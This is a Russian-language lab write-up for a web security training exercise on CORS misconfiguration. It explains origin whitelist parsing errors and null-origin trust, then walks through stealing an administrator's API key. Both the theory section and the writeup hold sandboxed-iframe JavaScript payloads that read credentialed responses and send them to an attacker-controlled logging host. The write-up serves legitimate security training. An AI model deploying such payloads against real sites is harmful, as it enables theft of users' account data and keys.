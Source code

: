 # CORS vulnerability with basic origin reflection

## Theory

<h3>Ошибки парсинга заголовков Origin</h3>

Некоторые приложения, поддерживающие доступ из нескольких источников, делают это с помощью белого списка разрешенных источников. При получении запроса CORS указанный источник сравнивается с белым списком. Если источник появляется в белом списке, он отражается в заголовке Access-Control-Allow-Origin, чтобы доступ был предоставлен. Например, приложение получает обычный запрос вида:


```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Приложение сверяет предоставленный источник со своим списком разрешенных источников и, если он есть в списке, отражает источник следующим образом:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Ошибки часто возникают при реализации белых списков происхождения CORS. Некоторые организации решают разрешить доступ со всех своих поддоменов (включая будущие поддомены, которых еще не существует). А некоторые приложения разрешают доступ из различных доменов других организаций, включая их поддомены. Эти правила часто реализуются путем сопоставления префиксов или суффиксов URL или с использованием регулярных выражений. Любые ошибки в реализации могут привести к предоставлению доступа к непредусмотренным внешним доменам.

Например, предположим, что приложение предоставляет доступ ко всем доменам, оканчивающимся на:

```
normal-website.com
```

Злоумышленник может получить доступ, зарегистрировав домен:

```
hackersnormal-website.com
```

В качестве альтернативы предположим, что приложение предоставляет доступ ко всем доменам, начинающимся с

```
normal-website.com
```

Злоумышленник может получить доступ, используя домен:

```
normal-website.com.evil-user.net
```

<h3>Нулевое исходное значение из белого списка</h3>

Спецификация заголовка Origin поддерживает значение null.Браузеры могут отправлять значение null в заголовке Origin в различных необычных ситуациях:

* Перенаправления между источниками.
* Запросы из сериализованных данных.
* Запрос с использованием файла: протокол.
* Запросы из разных источников в песочнице.

Некоторые приложения могут внести в белый список нулевое происхождение для поддержки локальной разработки приложения. Например, предположим, что приложение получает следующий cross-origin запрос:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Ответ сервера:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

В этой ситуации злоумышленник может использовать различные приемы, чтобы сгенерировать cross-origin запрос, содержащий значение null в заголовке Origin. Это удовлетворит белый список, что приведет к междоменному доступу. Например, это можно сделать с помощью запроса перекрестного происхождения iframe в песочнице в форме:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:

![](./assets/1.png)

Логинимся под имеющимися данными, сохраняя запросы в HTTP History.

![](./assets/2.png)

После перехвата запроса и ответа, в ответе мы можем видеть заголовок, используемый в CORS, а именно **Access-Control-Allow-Credentials** и пользовательские данные.

![](./assets/3.png)

Отправляем данный запрос в Repeater. Допишем в запрос заголовок Origin, значением которго будет **null** В ответе мы можем заметить новый заголовок **Access-Control-Allow-Origin**, который подтвержает доступ к ресурсам.

![](./assets/4.png)

Теперь мы попробуем украсть пользовательские данные администратора. Для этого перейдет к exploit server.

![](./assets/5.png)

Создадим вредоносную html страницу. Наш коод будет выглядеть следующим образом:

![](./assets/6.png)

```
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0aae00ea04bd6388c6483b5200840038.web-security-academy.net'
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-0a2700ea046e63cec6ef3a9d011800bf.exploit-server.net/log?key=' + xhr.responseText)
                }
            }
            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```

Сохраняем изменения и отправляем данный код жертве. В логах нашего сайта мы можем увидеть следующие строки:

![](./assets/7.png)

Берем api ключ администратора и подтверждает ответ.

![](./assets/8.png)

Получаем ответ от сервера.

![](./assets/9.png)